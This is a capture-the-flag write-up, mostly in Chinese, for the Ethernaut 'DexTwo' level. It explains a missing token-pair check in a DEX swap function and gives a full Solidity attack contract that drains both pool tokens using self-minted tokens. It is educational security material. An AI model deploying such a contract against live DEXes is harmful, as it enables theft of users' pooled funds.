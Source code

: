 # 23-Dex2

日期: 26/08/2024
难易: 中等
漏洞小结: 缺少校验
简单明了: 缺少token校验，可以随便交换

# 问题描述

This level will ask you to break `DexTwo`, a subtlely modified `Dex` contract from the previous level, in a different way.

You need to drain all balances of token1 and token2 from the `DexTwo` contract to succeed in this level.

You will still start with 10 tokens of `token1` and 10 of `token2`. The DEX contract still starts with 100 of each token.

Things that might help:

- How has the `swap` method been modified?

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract DexTwo is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function add_liquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapAmount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
        SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

# 攻击思路

1. diff了一下dex和dex2，发现唯一的区别就是swap那边少了一个require的条件

```solidity
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

1. 需要实现的目标从把一个token归零变成了两种token都归零，用dex的攻击方法做不到
2. 少了那个条件，说明在这个dex里面不必要是只有这两种token，可以先创造另外两个token，都转入，然后再用这两个随意的token吧dex2里面的token1和token2全都置换出来

# 攻击方式

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract Hack {
    constructor(IDex dex) {
        IERC20 token1 = IERC20(dex.token1());
        IERC20 token2 = IERC20(dex.token2());

        MyToken myToken1 = new MyToken();
        MyToken myToken2 = new MyToken();

        // Keep 1, send 1 to dex
        myToken1.mint(2);
        myToken2.mint(2);

        myToken1.transfer(address(dex), 1);
        myToken2.transfer(address(dex), 1);

        myToken1.approve(address(dex), 1);
        myToken2.approve(address(dex), 1);

        dex.swap(address(myToken1), address(token1), 1);
        dex.swap(address(myToken2), address(token2), 1);

        require(token1.balanceOf(address(dex)) == 0, "dex token1 balance != 0");
        require(token2.balanceOf(address(dex)) == 0, "dex token2 balance != 0");
    }
}

interface IDex {
    function token1() external view returns (address);
    function token2() external view returns (address);
    function swap(address from, address to, uint256 amount) external;
}

interface IERC20 {
    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);

    event Transfer(address indexed from, address indexed to, uint256 value);
    event Approval(address indexed owner, address indexed spender, uint256 value);
}

contract MyToken is IERC20 {
    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    function transfer(address recipient, uint256 amount) external returns (bool) {
        balanceOf[msg.sender] -= amount;
        balanceOf[recipient] += amount;
        emit Transfer(msg.sender, recipient, amount);
        return true;
    }

    function approve(address spender, uint256 amount) external returns (bool) {
        allowance[msg.sender][spender] = amount;
        emit Approval(msg.sender, spender, amount);
        return true;
    }

    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool) {
        allowance[sender][msg.sender] -= amount;
        balanceOf[sender] -= amount;
        balanceOf[recipient] += amount;
        emit Transfer(sender, recipient, amount);
        return true;
    }

    function mint(uint256 amount) external {
        balanceOf[msg.sender] += amount;
        totalSupply += amount;
        emit Transfer(address(0), msg.sender, amount);
    }

    function burn(uint256 amount) external {
        balanceOf[msg.sender] -= amount;
        totalSupply -= amount;
        emit Transfer(msg.sender, address(0), amount);
    }
}
```

# Ethernuat总结

As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior.

Just because a contract claims to implement the [ERC20 spec](https://eips.ethereum.org/EIPS/eip-20) does not mean it's trust worthy.

Some tokens deviate from the ERC20 spec by not returning a boolean value from their `transfer` methods. See [Missing return value bug - At least 130 tokens affected](https://medium.com/coinmonks/missing-return-value-bug-at-least-130-tokens-affected-d67bf08521ca).

Other ERC20 tokens, especially those designed by adversaries could behave more maliciously.

If you design a DEX where anyone could list their own tokens without the permission of a central authority, then the correctness of the DEX could depend on the interaction of the DEX contract and the token contracts being traded.

# 小白的思考

1. 思路很清晰明确，尤其是用了diff之后
2. 需要一定写代码的功夫，多练